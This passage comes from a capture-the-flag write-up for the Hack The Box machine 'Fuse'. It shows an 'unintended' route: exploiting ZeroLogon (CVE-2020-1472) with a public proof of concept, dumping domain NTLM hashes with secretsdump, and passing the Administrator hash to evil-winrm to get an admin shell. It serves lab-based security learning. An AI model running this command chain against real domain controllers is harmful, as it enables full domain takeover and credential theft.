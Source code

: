 ## Unintented Method

### Exploiting ZeroLogon (CVE-2020-1472)

I am not fond of this method as it totally eliminates all the hard work & efforts, directly leading you to Admin shell.

Even though it's not that fun, But the Fact that this was an old Windows Machine released prior to ZeroLogon it is likely to be Vulnerable.

> Zerologon is the name that has been given to a vulnerability identified in CVE-2020-1472. It's called zerologon due to the flaw in the logon process where the initialization vector (IV) is set to all zeros all the time while an Initialization Vector (IV) should always be a random number. Allows to instantly become domain admin by subverting Netlogon cryptography.

We'll exploit it with reference to [**this PoC**](https://github.com/dirkjanm/CVE-2020-1472):

```shell
cfx:  /opt/CVE-2020-1472  |master ✓|
→ python3 cve-2020-1472-exploit.py FUSE 10.10.10.193
Performing authentication attempts...
===============================================================================================
Target vulnerable, changing account password to empty string

Result: 0

Exploit complete!
```
Now that the exploit has completed successfully, Let's use Impacket's `secretsdump.py` to extract NTDS.DIT data (NTLM hashes and Kerberos keys)

```shell
cfx:  /opt/CVE-2020-1472  |master ✓|
→ secretsdump.py -no-pass -just-dc fabricorp.local/FUSE\$@10.10.10.193
Impacket v0.9.22.dev1+20201015.130615.81eec85a - Copyright 2020 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:370ddcf45959b2293427baa70376e14e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:8ee7fac1bd38751dbff06b33616b87b0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
svc-print:1104:aad3b435b51404eeaad3b435b51404ee:38485fd7730cca53473d0fa6ed27aa71:::
bnielson:1105:aad3b435b51404eeaad3b435b51404ee:8873f0c964ab36700983049e2edd0f77:::
sthompson:1601:aad3b435b51404eeaad3b435b51404ee:5fb3cc8b2f45791e200d740725fdf8fd:::
[..SNIP..]
```
### Admin Shell

Using Administrator NT hash, we can get a shell:

```shell
cfx:  ~/Documents/htb/fuse
→ evil-winrm -i 10.10.10.193 -u Administrator -H '370ddcf45959b2293427baa70376e14e'

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
fabricorp\administrator
*Evil-WinRM* PS C:\Users\Administrator\Desktop> get-content root.txt
562d41d17cbbea2*****************
```
